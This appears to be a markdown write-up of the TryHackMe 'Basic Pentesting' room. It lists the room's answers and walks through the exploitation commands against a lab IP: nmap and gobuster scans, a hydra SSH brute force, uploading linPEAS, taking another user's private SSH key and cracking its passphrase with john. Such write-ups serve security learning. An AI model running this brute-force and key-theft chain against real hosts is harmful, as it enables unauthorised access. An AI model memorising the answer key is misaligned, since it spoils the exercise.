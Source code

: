 ```yaml
---
layout: post
title: Basic Pentesting
categories: [CyberSecurity, CTF]
tags: [CTF, thm, easy, nmap]
---
```

# Basic Pentesting

### Task 1 Web App Testing and Privilege Escalation


 

In these set of tasks you'll learn the following:


 

brute forcing

hash cracking

service enumeration

Linux Enumeration


 

#### Questions:

1. What is the name of the hidden directory on the web server(enter name without /)?

```

development

```

2. What is the username?

```

jan

```

3. What is the password?

```

armando

```

4. What service do you use to access the server(answer in abbreviation in all caps)?

```

SSH

```

5. What is the name of the other user you found(all lower case)?

```

kay

```

6. What is the final password you obtain?

```

heresareallystrongpasswordthatfollowsthepasswordpolicy$$

```


 

---


 

### MyWalk:

Attacking: 10.10.40.46

Target:


 

Beginning with an nmap scan, and save the results on nmap/initial for future reference:

```bash

nmap -T4 -sC -sV -Pn -oN nmap/initial 10.10.40.46

```

Now I'll enumerate any directories available:

```bash

gobuster dir --url http://10.10.40.46 -w //usr/share/wordlists/dirb/common.txt | tee gobuster.txt

```

<span style="color:green;">Q1 done</span>


 

http://10.10.40.46/development give us 2 files referencing development messages between two users.

Lets use enum4linux:

```bash

/usr/share/enum4linux/enum4linux.pl -a 10.10.40.46 | tee enum4linux.log

```

Users 'kay' and 'jan' found.

<span style="color:green;">Q2 & Q5 done</span>


 

Now I try to get the 'jan' password using brute force, and get answer to Q3:

```bash

hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.40.46 -t 4

```

jan:armando <span style="color:green;">Q3 done</span>


 

Now I'll try to login with shh credentials:

```bash

ssh jan@10.10.40.46

```

After sucessfull connection <span style="color:green;">Q4 done</span>. We will try some commands now:

```bash

jan@basic2:~$ ls -al

total 12

drwxr-xr-x 2 root root 4096 Apr 23 2018 .

drwxr-xr-x 4 root root 4096 Apr 19 2018 ..

-rw------- 1 root jan 47 Apr 23 2018 .lesshst


 

jan@basic2:~$ pwd

/home/jan


 

jan@basic2:~$ cat .lesshst

cat: .lesshst: Permission denied


 

jan@basic2:~$ cat /etc/passd

cat: /etc/passd: No such file or directory


 

jan@basic2:~$ sudo -l

[sudo] password for jan:

Sorry, user jan may not run sudo on basic2.


 

jan@basic2:~$ cd ..

jan@basic2:/home$ cd kay

jan@basic2:/home/kay$ cat pass.bak

cat: pass.bak: Permission denied


 

jan@basic2:/home/kay$ cat .viminfo

cat: .viminfo: Permission denied

```

Nothing seems to work, so at this point we should try running Priviledge Escalation Awsome Script:

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

After install the linpeas.sh script in our directory /opt/linPEAS we we'll run the command:

```bash

scp /opt/linPEAS/linpeas.sh jan@10.10.40.46:/dev/shm

```

Checking the target:

```bash

jan@basic2:~$ cd /dev/shm

jan@basic2:/dev/shm$ ls

linpeas.sh

```

Run it (on target):

```bash

./linpeas.sh | tee linlog.txt

```

Found a id_rsa key. Past it in a file using nano and mark it as read only by us.

Now lets connect with the key of 'kay' user:

```bash

sudo ssh -i kay_id_rsa kay@10.10.40.46

```

At this point an error occurred because the key format listed in the linpeas result was incorrect, so lets extract it directly from the directory: /home/kay/.ssh/id_rsa


 

After trying to connect again it asks for a paraphrase so we need to use johntheripper to find the pass.

First I need to prepare the key to use in johntheripper, with the ssh2john.py script, and save it in the forjohn.txt:

```bash

/usr/share/john/ssh2john.py kay_id_rsa > forjohn.txt

```

Now run john with the key against the rockyou.txt:

```bash

john forjohn.txt --wordlist=/usr/share/wordlists/rockyou.txt

```

we can see the paraphrase is 'beeswax'


 

Lets try to login again as kay:

```bash

sudo ssh -i kay_id_rsa kay@10.10.40.46

```

Entering the paraphrase password 'beeswax' and success!

Now is possible to read the pass.bak file and <span style="color:green;">Q6 done</span>


 

---

#### Tools:

- nmap

- gobuster

- enum4linux

- hydra

- linPEAS

- johntheripper
